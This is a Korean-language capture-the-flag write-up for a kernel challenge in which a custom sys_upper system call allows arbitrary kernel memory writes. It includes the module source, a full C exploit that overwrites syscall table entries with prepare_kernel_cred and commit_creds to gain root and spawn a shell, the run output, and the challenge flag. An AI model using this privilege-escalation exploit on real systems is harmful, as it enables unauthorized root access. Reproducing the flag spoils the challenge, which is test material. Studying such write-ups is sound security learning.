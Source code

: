# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-20-01-22-11.png)


# **Write-Up**

소스코드를 확인해보자

```cpp
// adding a new system call : sys_upper

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/slab.h>
#include <linux/vmalloc.h>
#include <linux/mm.h>
#include <asm/unistd.h>
#include <asm/page.h>
#include <linux/syscalls.h>

#define SYS_CALL_TABLE		0x8000e348		// manually configure this address!!
#define NR_SYS_UNUSED		223

//Pointers to re-mapped writable pages
unsigned int** sct;

asmlinkage long sys_upper(char *in, char* out){
	int len = strlen(in);
	int i;
	for(i=0; i<len; i++){
		if(in[i]>=0x61 && in[i]<=0x7a){
			out[i] = in[i] - 0x20;
		}
		else{
			out[i] = in[i];
		}
	}
	return 0;
}

static int __init initmodule(void ){
	sct = (unsigned int**)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}

static void __exit exitmodule(void ){
	return;
}

module_init( initmodule );
module_exit( exitmodule );
```

module_init으로 리눅스 디바이스 드라이버에 등록되고 initmodule함수가 호출된다.

그리고 SYS_CALL_TABLE에서 224번째에 sys_upper라는 함수를 등록한다.

sys_upper는 in이 a(0x61) ~ z(0x7a)이면 A(0x41) ~ Z(0x5a)로 변환한다.

이때, out을 in으로 덮을 수 있다는 점을 이용하여 commit_creds함수와 prepare_kernel_cred함수를 이용하여 root권한을 획득하자.

> [commit_creds & prepare_kernel_cred](https://wogh8732.tistory.com/308)

먼저 commit_creds와 prepare_kernel_cred의 주소를 확인하자.

```sh
cat /proc/kallsyms | grep "commit_creds"
8003f56c T commit_creds
cat /proc/kallsyms | grep "prepare_kernel_cred"
8003f924 T prepare_kernel_cred
```

주소를 보면 0x6c가 sys_upper함수의 if 문에 걸려 0x4c로 변경될 것이다. 따라서 0x60으로 덮어주자.

이때, 0x60에서 0x6c까지 0xc byte만큼 nop 슬라이딩을 해줘야한다.

다음은  mov r1, r1같은 arm architecture에서의 nop 슬라이딩이라고 한다.

    0xe1a01001, 0xe1a02002, 0xe1a03003, 0xe1a04004, 0xe1a05005, 0xe1a06006, 0xe1a07007, 0xe1a08008, 0xe1a09009, 0xe1a0a00a, 0xe1a0b00b

commit_creds함수와 prepare_kernel_cred함수는 인자 1개를 받으므로, syscall 테이블에서 인자 1개를 받은 함수의 테이블 번호를 찾아보자.

```sh
/ $ vi /usr/include/arm-linux-gnueabihf/asm/unistd.h

#define __NR_restart_syscall            (__NR_SYSCALL_BASE+  0)
#define __NR_exit                       (__NR_SYSCALL_BASE+  1)
#define __NR_fork                       (__NR_SYSCALL_BASE+  2)
#define __NR_read                       (__NR_SYSCALL_BASE+  3)
#define __NR_write                      (__NR_SYSCALL_BASE+  4)
#define __NR_open                       (__NR_SYSCALL_BASE+  5)
#define __NR_close                      (__NR_SYSCALL_BASE+  6)
                                        /* 7 was sys_waitpid */
#define __NR_creat                      (__NR_SYSCALL_BASE+  8)
#define __NR_link                       (__NR_SYSCALL_BASE+  9)
#define __NR_unlink                     (__NR_SYSCALL_BASE+ 10)
#define __NR_execve                     (__NR_SYSCALL_BASE+ 11)
#define __NR_chdir                      (__NR_SYSCALL_BASE+ 12)
#define __NR_time                       (__NR_SYSCALL_BASE+ 13)
#define __NR_mknod                      (__NR_SYSCALL_BASE+ 14)
#define __NR_chmod                      (__NR_SYSCALL_BASE+ 15)
#define __NR_lchown                     (__NR_SYSCALL_BASE+ 16)
                                        /* 17 was sys_break */
                                        /* 18 was sys_stat */
#define __NR_lseek                      (__NR_SYSCALL_BASE+ 19)
#define __NR_getpid                     (__NR_SYSCALL_BASE+ 20)
#define __NR_mount                      (__NR_SYSCALL_BASE+ 21)
... 생략
```

적당히 12번, 13번을 사용하여 exploit코드를 작성하자.

```cpp
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>

unsigned int** sct;
int main(){
    sct=(unsigned int**)0x8000e348;
    syscall(223,"\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1",0x8003f560);
    syscall(223,"\x24\xf9\x03\x80",&sct[12]); // prepare_kernel_cred
    syscall(223,"\x60\xf5\x03\x80",&sct[13]); // commit_creds
    syscall(13,syscall(12,0)); // commit_creds(prepare_kernel_cred(0))
    system("/bin/sh");
    return 0;
}
```

FLAG를 획득하자.

```sh
/ $ cd /tmp
/tmp $ vi test.c
/tmp $ gcc -o test test.c
/tmp $ ./test
/bin/sh: can't access tty; job control turned off
/tmp # id
uid=0 gid=0
/tmp # cat /root/flag
Congratz!! addr_limit looks quite IMPORTANT now... huh?
```


# **FLAG**

**Congratz!! addr_limit looks quite IMPORTANT now... huh?**